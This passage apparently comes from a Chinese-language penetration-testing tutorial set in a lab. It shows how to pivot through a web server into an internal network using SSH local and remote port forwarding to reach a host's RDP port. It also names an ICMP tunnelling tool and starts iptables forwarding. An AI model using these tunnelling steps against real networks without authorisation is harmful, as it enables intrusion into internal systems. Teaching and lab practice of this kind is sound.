 > 测试环境如下图，VPS可访问Web服务器，但不能访问内网其它机器，Web服务器可访问内网其它机器。
>
> 目标：以Web服务器为跳板访问内网其它机器。

![](/images/image-20200619231457834.png)

**本地转发**

在`VPS（黑客）`上执行以下命令

```bash
ssh -CfNg -L 1153（VPS端口）:10.1.1.3（目标主机）:3389（目标端口）
root@192.168.0.3（跳板机，Web服务器，会要求输入密码）

#查看1153端口是否已经连接
netstat -tulnp | grep "1153"

#连接目标数据库服务器的远程桌面
rdesktop 127.0.0.1:1153
```

SSH进程的本地端口映射，将本地端口转发到远端指定机器的指定端口；

本地端口转发是在本地监听一个端口，所有访问这个端口的流量都会通过SSH隧道传输到远端的对应端口。

**远程转发**

 在`Web服务器`上执行如下命令 

```bash
ssh -CfNg -R 1122（VPS端口）:10.1.1.3（目标主机，数据库）:3389（目标端口） root@192.168.0.5(VPS的IP)
```

访问`VPS`的1122端口，即可连接内网数据库服务器的3389

```bash
rdesktop 127.0.0.1:1122
```

所有访问`VPS`的1122端口的流量都会通过SSH隧道传输到数据库服务器的3389端口

## ICMP隧道

项目地址：https://github.com/esrrhs/pingtunnel

适用场景 ：特殊环境下icmp流量允许出网

实现原理：客户端将TCP流量封装成icmp，然后发送给服务端，服务端再从ICMP包解析出正常TCP流量最后发向目标

![](/images/image-20200613145026593.png)

## iptables正向端口转发

1、编辑配置文件

```bash
vi /etc/sysctl.conf
	net.ipv4.ip_forward = 1#开启IP转发
```
